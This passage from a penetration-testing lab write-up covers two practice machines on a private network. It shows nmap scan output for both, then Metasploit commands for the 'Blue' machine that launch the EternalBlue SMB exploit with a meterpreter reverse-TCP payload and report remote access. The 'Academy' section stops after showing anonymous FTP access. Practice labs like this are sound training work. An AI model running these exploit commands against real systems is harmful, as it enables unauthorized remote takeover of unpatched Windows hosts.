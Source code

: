 ```
  
TRACEROUTE  
HOP RTT     ADDRESS  
1   0.64 ms 192.168.7.20  
  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 99.13 seconds
```

* the only thing that can have our attention is the version of Microsoft Windows given to us . a little search in google gave us an exploit called "EternalBlue" which is a SMB remote code execution vulnerability


* let's run metasploit framework and search for this exploit 


```
>msfconsole

>search eternalblue
found an exploit module exploit/windows/smb/ms17_010_eternalblue

>options

>set RHOSTS Blue_address

>set payload windows/x64/meterpreteer/reverse_tcp

>run


#and there we go .. the exploit worked and we have access to the machine remotely
```




# Academy
* from the nmap scan we get the following results
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-22 11:38 CET  
Nmap scan report for 192.168.7.21  
Host is up (0.00039s latency).  
Not shown: 65532 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     vsftpd 3.0.3  
| ftp-syst:    
|   STAT:    
| FTP server status:  
|      Connected to ::ffff:192.168.7.14  
|      Logged in as ftp  
|      TYPE: ASCII  
|      No session bandwidth limit  
|      Session timeout in seconds is 300  
|      Control connection is plain text  
|      Data connections will be plain text  
|      At session startup, client count was 3  
|      vsFTPd 3.0.3 - secure, fast, stable  
|_End of status  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt  
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
| ssh-hostkey:    
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)  
```